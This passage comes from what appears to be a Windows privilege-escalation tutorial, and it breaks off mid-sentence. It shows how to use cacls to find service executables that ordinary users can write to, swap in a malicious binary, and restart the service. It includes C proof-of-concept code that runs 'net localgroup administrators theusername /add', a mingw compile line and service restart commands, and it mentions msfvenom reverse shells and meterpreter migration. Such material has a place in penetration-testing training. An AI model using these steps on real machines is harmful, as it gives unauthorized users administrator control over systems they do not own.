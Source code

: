 Now you can process them one by one with the cacls command.

```
cacls "C:\path\to\file.exe"
```

**Look for Weakness**

What we are interested in is binaries that have been installed by the user. In the output you want to look for `BUILTIN\Users:(F)`. Or where your user/usergroup has `(F)` or `(C)` rights.

Example:

```
C:\path\to\file.exe
BUILTIN\Users:F
BUILTIN\Power Users:C
BUILTIN\Administrators:F
NT AUTHORITY\SYSTEM:F
```

That means your user has write access. So you can just rename the `.exe` file and then add your own malicious binary. And then restart the program and your binary will be executed instead. This can be a simple getsuid program or a reverse shell that you create with msfvenom.

Here is a POC code for getsuid.

```c
#include <stdlib.h>
int main ()
{
int i;
    i = system("net localgroup administrators theusername /add");
return 0;
}
```

We then compile it with mingw like this:

```bash
i686-w64-mingw32-gcc windows-exp.c -lws2_32 -o exp.exe
```

**Restart the Service**

Okay, so now that we have a malicious binary in place we need to restart the service so that it gets executed. We can do this by using `wmic` or `net` the following way:

```
wmic service NAMEOFSERVICE call startservice
```

```
net stop [service name] && net start [service name].
```

The binary should now be executed in the SYSTEM or Administrator context.

**Migrate the meterpreter shell**

If your meterpreter session dies right after you get it you need migrate it to a more stable service. A common service to migrate to is winlogon.exe since it is run by system and it is always run. You can find the PID like this:
